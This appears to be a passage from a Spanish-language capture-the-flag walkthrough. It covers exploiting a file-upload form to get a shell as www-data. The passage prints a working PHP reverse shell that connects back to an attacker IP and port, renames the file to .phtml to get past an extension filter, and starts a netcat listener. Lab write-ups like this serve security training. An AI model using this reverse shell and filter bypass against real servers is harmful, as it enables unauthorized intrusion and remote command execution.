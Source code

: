 Si le damos nos llevara a una seccion para poder subir un archivo, vamos a probar a subir un archivo `.php` con una `reverse shell`.

## Escalate user www-data

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si intentamos subir dicho archivo veremos esto:

```
For security, .php files are allowed.Sorry, your file was not uploaded.
```

Vemos que lo esta securizando, por lo que vamos a probar extensiones de `PHP` pero para `bypassearlo`.

<figure><img src="../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>

Vamos a probar con `.phtml`.

```shell
mv webshell.php webshell.phtml
```

Ahora vamos a probar a subirlo de nuevo a ver si nos deja.

Veremos que con esto si que nos dejara y nos llevara de forma automatica a `/assets/img/` donde estara el archivo subido.

Antes de entrar en dicho archivo, vamos a ponernos a la escucha.

```shell
nc -lvnp <PORT>
```
